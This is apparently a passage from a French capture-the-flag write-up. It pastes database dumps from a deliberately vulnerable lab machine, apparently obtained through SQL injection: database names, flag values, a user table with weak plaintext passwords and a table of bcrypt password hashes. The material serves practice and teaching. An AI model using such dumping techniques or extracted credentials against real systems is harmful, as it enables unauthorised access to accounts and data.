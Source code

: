 Je paste ici les dumps les plus intéressants :  

{% raw %}
```
available databases [6]:
[*] anchor
[*] flag
[*] information_schema
[*] mysql
[*] performance_schema
[*] timeclock

Database: flag
Table: flag
[1 entry]
+-------------------+
| flag              |
+-------------------+
| {{tryharder:766}} |
+-------------------+

Database: timeclock
Table: user_info
[5 entries]
+---------+---------+---------+---------------+----------+----------+
| user_id | lname   | fname   | level         | username | password |
+---------+---------+---------+---------------+----------+----------+
| 1       | Admin   | Admin   | Administrator | admin    | admin    |
| 5       | yool    | heather | Administrator | heather  | heather  |
| 4       | tin     | larryjr | Administrator | larryjr  | larryjr  |
| 6       | <blank> | user1   | User          | user1    | user1    |
| 7       | user2   | user2   | User          | user2    | user2    |
+---------+---------+---------+---------------+----------+----------+

Database: anchor
Table: anchor_users
[4 entries]
+----+-------------------+---------------+---------------------+--------+---------------------+----------+--------------------------------------------------------------+---------------+
| id | bio               | role          | email               | status | updated             | username | password                                                     | real_name     |
+----+-------------------+---------------+---------------------+--------+---------------------+----------+--------------------------------------------------------------+---------------+
| 1  | The bouse         | administrator | myemail@local.local | active | 2018-10-22 04:20:20 | admin    | $2y$12$XyIp48YfHyfF8m6UfeN2nO3kLk.PgnL6Lz/pQolT4rDzsyYHGsSdC | Administrator |
| 2  | <blank>           | administrator | jim@test.local      | active | 2018-10-23 03:59:30 | jim      | $2y$12$MaNoQI.ro2vd3Eplh0m.u.Fs/POoCoADcRFCExYhFvX9nSPk6F7Vi | jim           |
| 3  | <blank>           | administrator | heather@local.local | active | 2018-10-23 04:10:46 | heather  | $2y$12$RXw2Ye66qe5FtirI/95mFeQMQt2L7jezw9evcA8DEg0QOp3YZE2xq | heather       |
| 4  | {{tryharder:913}} | administrator | larryjr@local.local | active | 2018-10-23 04:19:37 | larryjr  | $2y$12$2jeSR68yBEVqJ88kA16HJ.qgjMy963lXyUY.7AAfKRSCGD1zgK62i | larryjr       |
+----+-------------------+---------------+---------------------+--------+---------------------+----------+--------------------------------------------------------------+---------------+
```
{% endraw %}
